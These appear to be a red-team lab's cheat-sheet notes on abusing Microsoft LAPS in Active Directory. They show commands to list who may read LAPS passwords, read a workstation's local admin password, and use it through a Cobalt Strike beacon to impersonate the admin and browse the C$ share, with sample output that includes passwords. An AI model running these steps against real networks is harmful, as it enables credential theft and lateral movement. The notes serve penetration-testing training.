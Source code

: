 
## [[Local Administrator Password Solution (LAPS)]]
> Import-Module -Name AdmPwd.PS -SkipEditionCheck  
> Get-AdmPwdPassword - ComputerName $env:COMPUTERNAME

### Find principals allowed to read PW
`Find-AdmPwdExtendedRights` will list the principals allowed to read the LAPS password for machines in the given OU.
```ps
Find-AdmPwdExtendedRights -Identity Workstations | fl

ObjectDN             : OU=Workstations,DC=edu,DC=evil,DC=corp
ExtendedRightHolders : {NT AUTHORITY\SYSTEM, EDU\Domain Admins, EDU\1st Line Support}
```

Alternative: [[PowerView#Get principals can read LAPS PW]]


### Read LAPS PW
Since Domain Admins can read all the LAPS password attributes, `Get-AdmPwdPassword` will do just that.
```ps
Get-AdmPwdPassword -ComputerName wkstn2 | fl

ComputerName        : WKSTN2
DistinguishedName   : CN=WKSTN2,OU=Workstations,DC=edu,DC=evil,DC=corp
Password            : WRSZV43u16qkc1
ExpirationTimestamp : 5/20/2022 12:57:36 PM
```

Alternatives: [[PowerView#Show DomainObject]]

### Use LAPS PW
```beacon
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn2 | fl

ComputerName        : WKSTN2
DistinguishedName   : CN=WKSTN2,OU=Workstations,DC=edu,DC=evil,DC=corp
Password            : password123.
ExpirationTimestamp : 3/23/2022 5:18:43 PM

beacon> rev2self
beacon> make_token .\lapsadmin password123.
beacon> ls \\wkstn2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/19/2022 14:35:19   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot
```